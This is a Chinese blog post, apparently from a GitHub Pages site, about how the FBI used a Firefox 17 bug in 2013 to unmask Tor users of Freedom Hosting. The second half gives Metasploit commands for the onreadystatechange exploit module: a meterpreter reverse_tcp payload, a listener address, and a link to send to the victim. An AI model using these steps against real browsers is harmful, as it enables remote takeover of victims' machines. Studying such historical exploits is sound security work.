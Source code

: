 ```yaml
---
layout: post
title: "The fbi tor exploit"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

http://resources.infosecinstitute.com/fbi-tor-exploit/

Tor网络是一种允许用户匿名访问网站和其他服务的网络。在这个网络中，存在一种称为黑暗网络（darknet）的服务，从论坛到电子邮件都有，这些服务是只有通过tor才可以访问。

Tor通过志愿者提供的3000多个中继传输网络流量从而隐藏真实用户的位置信息。尽管Tor网络上的很多服务都是清白的，但是它的匿名性也吸引了很多具有犯罪意图的人，比如传播儿童色情的组织。

出生于美国的Eric Eoin Marques居住在爱尔兰的都柏林，他是Freedom Hosting的首席架构师，而Freedom Hosting在欧洲的550台服务器被指控用来托管儿童色情网站。

Freedom Hosting就是Tor网络上的一个重要的服务提供商。它的服务只能通过tor网络来访问。因为它涉嫌违法的事情，所以Tor的负责人还特地发表过声明，称他们跟运营Freedom Hosting的人没有任何关系。声明如下：

“运营Freedom Hosting的人或组织跟开发Tor软件的团队没有任何关联和隶属关系。过去，曾有敌对的组织试图绕过tor隐藏的服务，直接攻击tor网络背后服务器上的软件。通常都是利用php，mysql和其他的软件的漏洞而不是tor本身的漏洞。最近有消息表明，有人成功利用了Freedom Hosting背后的软件漏洞。据我们所知是利用了Firefox 17 ESR的一个bug，tor浏览器就是基于这个firefox版本的。我们会研究这些bug，并尽快修复他们。

FBI利用了firefox17的一个漏洞，成功追踪到了Freedom Hosting的服务器。它使用的payload是收集电脑的MAC地址和hostname，然后通过http协议发送到自己控制的服务器上从而获得真实的ip地址。

Mozilla Firefox 小于22.0的版本，Firefox ESR 17.x，小于17.07的版本，Thunderbird ESR 17.x，小于17.07的版本没有妥善的处理onreadystatechange事件，导致远程攻击者可以拒绝服务攻击（程序crash）或者可能执行任意代码。

2013年8月份的时候就已经有人在利用这个漏洞攻击Tor browser的用户了。现在msf上已经有利用模块。针对firefox17.06.模块使用说明：

	windows/browser/mozilla_firefox_onreadystatechange:

![firefox]({{site.img_url}}firefox1.png)

	输入show options检查这个exp的配置项

![firefox]({{site.img_url}}firefox2.png)

	SRVHOST是msf本机的地址，这里配置命令是set SRVHOST 192.168.0.3

![firefox]({{site.img_url}}firefox3.png)

	然后设置payloadset PAYLOAD windows/meterpreter/reverse_tcp

![firefox]({{site.img_url}}firefox4.png)

	输入show options查看payload的配置项

![firefox]({{site.img_url}}firefox5.png)

	设置接受反弹shell的地址 set LHOST 192.168.0.103

![firefox]({{site.img_url}}firefox6.png)

	输入run命令开始监听:

![firefox]({{site.img_url}}firefox7.png)

	只要让受害者访问这个exp生成的链接就可以了.这里是http://192.168.0.103:8080/2Hek0bdO


![firefox]({{site.img_url}}firefox8.png)

	如果对方的浏览器存在漏洞可以看到msf的输出如下：

![firefox]({{site.img_url}}firefox9.png)

参考资料：

http://rt.com/usa/fbi-exploiting-tor-child-porn-842/

http://siliconangle.com/blog/2013/08/06/darknet-freedom-hosting-sites-shutdown-led-by-fbi-exploit-use-against-tor-network/

http://thehackernews.com/2013/08/Firefox-Exploit-Tor-Network-child-pornography-Freedom-Hosting.html

http://www.rapid7.com/db/modules/exploit/windows/browser/mozilla_firefox_onreadystatechange

PS：测试总是crash。。。要么是弹出一个对话框卡住，要么就直接crash了。
